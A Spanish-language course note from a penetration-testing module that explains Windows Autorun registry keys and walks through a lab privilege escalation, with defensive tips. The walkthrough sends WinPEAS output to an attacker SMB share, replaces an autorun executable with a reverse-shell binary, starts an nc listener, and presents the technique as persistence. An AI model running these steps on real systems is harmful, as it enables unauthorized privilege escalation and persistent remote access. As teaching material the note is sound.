







> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Registro: Autorun (Inicio Automático)

# 🔄 Registro - Autorun (Inicio Automático)

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 📋 Explotación de Registros en Windows

 

El registro de Windows es una base de datos jerárquica que almacena configuraciones y opciones del sistema operativo, así como información sobre usuarios y aplicaciones. Los atacantes pueden buscar vulnerabilidades en el registro que les permitan modificar valores o configuraciones clave para elevar sus privilegios.

 

### 🎯 Métodos de Explotación del Registro

 

Algunos métodos para elevar privilegios a través del registro son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Explotación del Registro:
> 

> 

> 
> * 
> **Manipulación de permisos de registro:** Los registros de Windows contienen claves y valores que definen configuraciones y políticas del sistema. Algunas claves de registro pueden contener información sensible o configuraciones de seguridad que, si se manipulan, pueden permitir a un atacante elevar sus privilegios.
> 
 
> * 
> **Inyección de datos en registros de aplicaciones:** Algunas aplicaciones utilizan registros para almacenar datos, como configuraciones de usuario o rutas de archivos. Si un atacante puede inyectar datos maliciosos en una clave de registro de una aplicación vulnerable, podría engañar a la aplicación para que ejecute código malicioso con privilegios elevados cuando se inicie.
> 
 
> * 
> **Uso de claves de registro de inicio automático (autorun):** El registro de Windows contiene claves que definen qué programas y servicios se ejecutan automáticamente al iniciar el sistema operativo. Los atacantes pueden aprovechar estas claves de inicio automático para ejecutar su propio código malicioso al arrancar el sistema.
> 

> 

 

### 🛡️ Protección contra Explotación del Registro

 

Para protegerse contra estos métodos de explotación de registros y la escalada de privilegios en Windows, se recomienda seguir buenas prácticas de seguridad, como:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Mantener el sistema operativo y las aplicaciones actualizadas con los últimos parches de seguridad.
> 
> * Utilizar software de seguridad, como antivirus y cortafuegos, para detectar y bloquear posibles amenazas.
> 
> * Aplicar el principio de menor privilegio, es decir, ejecutar programas y procesos con los privilegios mínimos necesarios para realizar su función.
> 
> * Limitar el acceso a las claves de registro y configurar correctamente los permisos de seguridad para prevenir la manipulación no autorizada.
> 
> * Utilizar cuentas de usuario con derechos limitados en lugar de cuentas de administrador para tareas diarias.
> 

> 

 

 
 

## 🔍 Descubriendo la Vulnerabilidad - Autorun

 

### 🛠️ Paso 1: Configurar Servidor SMB en Kali

 

Vamos a usar **WinPEAS** para ver si hay vulnerabilidades en la configuración del registro.

 

```bash
$ impacket-smbserver info. -smb2support
```

 

### 📤 Paso 2: Ejecutar WinPEAS y Enviar Resultados a Kali

 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 

```cmd
C:\> winPEASany.exe quiet applicationsinfo >> \\10.0.0.5\info\winpeas_registro.txt
```

 

### 📊 Paso 3: Analizar los Resultados

 

Vemos el documento txt que hemos recibido y observamos lo siguiente respecto al programa **"program.exe"**:

 

```bash
$ cat winpeas_registro.txt
```

 



 

> [!note]
> 
 
> #### 💡 ¿Qué son las Claves de Autorun?
> 
 
> Las **claves de Autorun** (inicio automático) son entradas del registro de Windows que definen qué programas se ejecutan automáticamente cuando:
> 

> 
> * El sistema se inicia (startup)
> 
> * Un usuario inicia sesión (logon)
> 
> * Se ejecutan en cada arranque del sistema
> 

> 
> **Ubicaciones comunes de Autorun:**
> 

> 
> * `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` (Todos los usuarios)
> 
> * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (Usuario actual)
> 
> * `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce` (Una vez, todos los usuarios)
> 
> * `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce` (Una vez, usuario actual)
> 

> 
> Si un ejecutable en estas claves tiene permisos débiles, podemos reemplazarlo con nuestro payload.
> 

 

### 🔧 Paso 4: Verificar con Autoruns (Sysinternals)

 

Podemos comprobarlo mediante la herramienta de **Sysinternals - Autoruns**:

 

```cmd
C:\tools> autorunsc.exe -accepteula
```

 



 



 

### 📋 Paso 5: Verificación Manual del Registro

 

Otra forma de comprobarlo es manualmente chequeando la entrada de registro:

 



 

```cmd
C:\tools> reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

 

> [!tip]
> 
 
> #### 🔍 Interpretación del Registro:
> 
 
> El comando `reg query` muestra las entradas de autorun. Buscamos:
> 

> 
> * **Nombre de la entrada:** Identificador del programa
> 
> * **Ruta del ejecutable:** Ubicación del archivo que se ejecuta
> 
> * **Tipo de dato:** REG_SZ (cadena de texto)
> 

> 
> Si tenemos permisos de escritura sobre el ejecutable referenciado, podemos reemplazarlo.
> 

 

 
 

## 💥 Explotando la Vulnerabilidad - Autorun

 

### 🔐 Paso 1: Comprobar Permisos del Ejecutable

 

Comprobamos los permisos en ese archivo:

 

```cmd
C:\tools> icacls "C:\Program Files\Autorun Program\program.exe"
```

 



 

> [!tip]
> 
 
> #### 📝 Interpretación de Permisos:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **F**
> 
> 
> 
> 
> **M**
> 
> 
> 
> 
> **W**
> 
> 
> 
> 
> **RX**
> 
> 
> 
> 
> 
> | Permiso | Significado | ¿Vulnerable? |
> | --- | --- | --- |
> | | Full Control (Control total) | ✅ Sí - Máxima vulnerabilidad |
> | | Modify (Modificar) | ✅ Sí - Permite sobrescribir |
> | | Write (Escribir) | ✅ Sí - Permite modificar |
> | | Read & Execute (Leer y ejecutar) | ❌ No - Solo lectura |
> 
 

 

### 💾 Paso 2: Backup y Reemplazo del Ejecutable

 

Hacemos copia del archivo original y copiamos nuestro `revshell.exe` sobrescribiendo el archivo `program.exe`:

 

```cmd
C:\tools> copy "C:\Program Files\Autorun Program\program.exe" C:\tools\program.exe

C:\tools> copy /Y revshell.exe "C:\Program Files\Autorun Program\program.exe"
```

 



 

> [!warning]
> 
 
> **⚠️ Importante:**
> 
> Siempre haz una copia de seguridad del ejecutable original antes de reemplazarlo. Esto permite:
> 

> 
> * Restaurar el sistema después del ataque
> 
> * No dejar rastros permanentes en sistemas de producción
> 
> * Seguir buenas prácticas de pentesting
> 

> 

 

### 🎧 Paso 3: Configurar Listener en Kali

 

Por último, iniciamos la escucha en Kali:

 

```bash
$ nc -lvnp 443
```

 

### 🔄 Paso 4: Cerrar Sesión e Iniciar con Usuario Privilegiado

 

Cerramos sesión e iniciamos con el usuario **tecnico** (o cualquier usuario con privilegios de administrador):

 



 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Al iniciar sesión, Windows ejecuta automáticamente todos los programas en las claves de Autorun, incluyendo nuestro `revshell.exe` malicioso.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> ```
> 
 

 

> [!tip]
> 
 
> #### ⏳ Consideración Importante:
> 
 
> **En este caso hay que esperar a que un usuario con permisos de administración entre para recibir la Shell**, si no recibiríamos la del usuario que inicia y si no tiene privilegios, nosotros tampoco.
> 
> **Factores a considerar:**
> 

> 
> * Si la clave de Autorun está en `HKLM` (HKEY_LOCAL_MACHINE), se ejecuta para todos los usuarios
> 
> * Si está en `HKCU` (HKEY_CURRENT_USER), solo se ejecuta para ese usuario específico
> 
> * Los privilegios de la shell serán los del usuario que inicia sesión
> 
> * Es una técnica de **persistencia** que se ejecuta en cada inicio de sesión
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ El registro de Windows almacena claves de inicio automático (Autorun)
> 
> * ✅ WinPEAS identifica ejecutables de Autorun con permisos débiles
> 
> * ✅ Autoruns (Sysinternals) lista todos los programas de inicio automático
> 
> * ✅ `reg query` permite consultar claves del registro manualmente
> 
> * ✅ Si tenemos permisos de escritura sobre un ejecutable de Autorun, podemos reemplazarlo
> 
> * ✅ El payload se ejecuta automáticamente al iniciar sesión el usuario
> 
> * ✅ Los privilegios obtenidos dependen del usuario que inicia sesión
> 
> * ✅ Esta técnica sirve tanto para escalada de privilegios como para persistencia
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **WinPEAS** → 
> **Identificar Autorun vulnerable** → 
> **Verificar permisos con icacls** → 
> **Backup del original** → 
> **Sobrescribir con payload** → 
> **Esperar inicio de sesión** → 
> **Shell con privilegios del usuario**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Autorun**
> 
> 
> 
> **HKLM\...\Run**
> 
> 
> 
> **HKCU\...\Run**
> 
> 
> 
> **Autoruns**
> 
> 
> 
> **reg query**
> 
> 
> 
> **Persistencia**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Programas que se ejecutan automáticamente al inicio del sistema o sesión |
> | | Clave de registro para todos los usuarios |
> | | Clave de registro para usuario actual |
> | | Herramienta Sysinternals para gestionar programas de inicio automático |
> | | Comando para consultar claves del registro |
> | | Técnica para mantener acceso al sistema tras reinicios |
> 

> 
> ### 📂 Ubicaciones Comunes de Autorun:
> 
 

> [!note]
> 
 
> ```cmd
> # Todos los usuarios (requiere admin para modificar)
> HKLM\Software\Microsoft\Windows\CurrentVersion\Run
> HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
> 
# Usuario actual (puede modificar el propio usuario)
> HKCU\Software\Microsoft\Windows\CurrentVersion\Run
> HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
> 
# Carpetas del sistema
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
> C:\Users\[Usuario]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
> ```
> 
 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 03-05: Servicios - Insecure Service Executable
> 
> → Práctica 04-02: Registro - AlwaysInstallElevated
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
